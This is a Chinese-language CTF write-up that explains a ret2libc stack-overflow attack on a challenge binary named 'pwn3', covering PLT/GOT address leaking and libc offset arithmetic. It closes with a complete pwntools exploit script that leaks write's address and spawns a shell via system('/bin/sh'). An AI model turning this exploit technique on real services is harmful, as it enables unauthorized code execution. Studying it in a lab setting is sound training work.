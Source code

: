 我们的目的是getshell, 那么只要能执行`system('/bin/sh')`类似的命令就能达成我们的目的, 执行类似命令我们还缺少一个条件, `system`函数的地址, 如果我们能获取到该地址, 那么很容易就能getshell了, 只要发送`32 * 'a' + system_addr + ret_address + '/bin/sh'`

首先是发送32 byte的padding把0x1c的buf和4 byte的ebp给填满, 然后是system_addr地址覆盖ret的地址, 控制eip跳转到system_addr地址, 然后就是system函数执行结束后的放回地址, 然后是system函数的参数`/bin/sh`

所以现在我们的问题就是, 如何获取system函数地址, 在pwn3的二进制文件中, 无法找到system函数

C语言写的程序, 在正常情况下, 程序都会加载一个叫libc的动态链接库, 在代码中你不需要`#include`外部库就能调用的函数, 比如`write`, `read`, `system`, 这些函数就来自这个libc库, 使用`ldd`可以查看一个二进制文件的动态链接库的情况
```
$ ldd pwn3
	linux-gate.so.1 =>  (0xf77f7000)
	libc.so.6 => /lib32/libc.so.6 (0xf7623000)
	/lib/ld-linux.so.2 (0x5662b000)
```

在运行pwn3的时候libc库也会被动态的加载到内存中去, libc中含有system函数, 所以内存中也会有system函数, 所以现在的问题是如何去寻找内存中system函数的地址

这时候涉及到另一个知识点, 在一个二进制文件中, 有一个plt表和一个got表的东西, 你的程序调用的函数除了自己写的函数外, 都会出现在这两个表中, 你可以想象成是外部调用函数表.

仔细看汇编代码你会发现, 外部函数的调用都是call该函数plt表的地址, 涉及到这样一种机制:

```
第一次call write -> write_plt -> 系统初始化去获取write在内存中的地址 -> 写到write_got -> write_plt变成jmp *write_got
```
还要能理解一种关系:
```
write_addr - system_addr == write_addr_libc - system_addr_libc
```

也就是, system函数和其他函数地址的差值, 不管是加载到内存中还是在libc的二进制中, 都是相等的

根据上面这些姿势, 如果我们获取到了`write_got`的值(write函数加载到内存中的地址), 因为我们有libc库, 所以可以很容易去计算system函数和write函数的差值, 用`write_got`地址减去这个差值, 也就是system函数加载到内存中的地址了

payload:
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

from pwn import *
context.log_level = "debug"

p = remote("127.0.0.1", 10003)
e = ELF('libc.so.6')
pwn3 = ELF('pwn3')

payload1 =  "a"*32									# 32 byte的padding
payload1 += p32(pwn3.symbols['write'])				# 控制eip跳转到write函数
payload1 += p32(pwn3.symbols['foo'])				# 调用完write后的返回地址
payload1 += p32(1) + p32(pwn3.got['write']) + p32(4)# write函数的三个参数: write(1, write_got, 4) 

p.sendline(payload1)
p.recv()
a = p.recv()

write_addr = u32(a[-4:])		# write 在内存中的值
write_system_addr = e.symbols['write'] - e.symbols['system']  # write函数和sytem函数地址的差值
write_shell_addr = e.symbols['write'] - e.search('/bin/sh').next() # write函数和/bin/sh字符串地址的差值

sys_add = p32(write_addr - write_system_addr)	# 通过差值计算出system函数在内存中的地址
shell_add = p32(write_addr - write_shell_addr)  # 计算出/bin/sh字符串的地址
ret_addr  = '\x12\x12\x12\x12'					# 调用system函数后的返回地址, 这里随便填
payload = "a" * 32 + sys_add + ret_addr + shell_add # 调用system('/bin/sh')
p.sendline(payload)
p.interactive()

```
